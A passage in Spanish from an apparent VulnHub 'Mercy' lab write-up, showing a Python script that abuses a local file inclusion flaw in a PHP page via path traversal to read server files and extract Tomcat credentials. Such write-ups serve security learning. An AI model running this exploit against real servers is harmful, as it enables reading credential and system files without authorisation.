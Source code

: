 
![](/assets/images/vulnhub-writeup-mercy/tomcat-password.png)


Se desarrolló un script para automatizar la lectura de archivos, aprovechando la fuga de información y la vulnerabilidad LFI en el servidor.


```python

import requests,sys,re,html

def lfi():
    url = "http://192.168.56.10/nomercy/windows/code.php?file=../../../../../.." + sys.argv[1]
    x = re.findall(r'<span class="phps-t-inline-html" >&lt;\?(.*?)\n',requests.get(url).text)
    for input_lfi in x:
        print(html.unescape(input_lfi))

if __name__ == "__main__":
    lfi()
```


Se procedió a utilizar el script para leer el archivo y extraer usuarios y contraseñas del servicio Tomcat.

